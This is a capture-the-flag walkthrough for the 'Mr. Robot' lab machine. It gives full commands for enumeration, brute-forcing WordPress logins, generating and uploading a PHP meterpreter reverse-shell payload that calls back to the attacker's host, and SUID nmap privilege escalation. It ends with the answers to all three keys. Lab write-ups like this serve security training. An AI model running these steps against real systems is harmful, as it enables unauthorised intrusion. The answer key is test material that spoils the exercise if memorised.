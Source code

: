 # Mr. Robot 
# Walkthrough by little-human
# Dated : 2nd may, 2022


> Machine ip : `10.10.72.147`

first we will start by scanning the machine with nmap
```
nmap -A -sV 10.10.72.147 -oN aggresive-nmap.txt
```

now lets scan the machine with gobuster
```
gobuster dir -u http://10.10.72.147 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 70 | tee dir.txt

```
we found robots.txt and there we have two file lets download these two files.
```
wget http://10.10.72.147/key-1-of-3.txt
wget http://10.10.72.147/fsocity.dic
```

so till now we have found one key out of three.


the file `fsociety.dic` looks like a password wordlist. we will use this to bruteforce every logins.

lets first remove the duplicates from the wordlist.

```
cat fsocity.dic | sort | uniq > rock.txt
```
now if we try to browse the paths we have found in gobuster scans we can get a wordpress login page when we go to `http://10.10.72.147/dashboard`

lets enumerate all users using hydra :

```
hydra -L fsocity.dic  -p 1234 10.10.72.147 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

now lets bruteforce the password using the wp-scan :
```
wpscan --url http://10.10.72.147/wp-login.php -U Elliot -P rock.txt 
```
now as we are loged in we will upload a php reverse shell and using metasploit we will try to connect to the server :
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.17.48.110 LPORT=4444 > payload.php
```

now start msfconsole and configure multi/handler.

we will upload the payload.php as a plugin and after uploading it we can see it in the media tab and from there we can run it after setting msf multi/handler in our local machine.

in home directory of the server we can find the users and its password hash also the flag 2.

spawning a tty shell : 
```
pythom -c 'import pty; pty.spawn("/bin/sh")'
```

after getting a shell just login with the credentials found earlier and read the flag 2.

search for SUID set bit for privilage escalation :
```
find /usr -user root -perm /4000
```

we can see that `nmap` has SUID bit set so we will use the interactive mode of nmap to exploit

```
nmap --interactive
```

after entering into nmap shell we can see help manual to run shell command :

```
! /bin/sh
```

ta-da we got the root shell.






| Que$t1on$ | An$wer$ |
|-----------|---------|
| What is key 1 ? | 073403c8a58a1f80d943455fb30724b9 |
| What is key 2 ? | 822c73956184f694993bede3eb39f959 |
| What is key 3 ? | 04787ddef27c3dee1ee161b21670b4e4 |





--------------THE END----------------
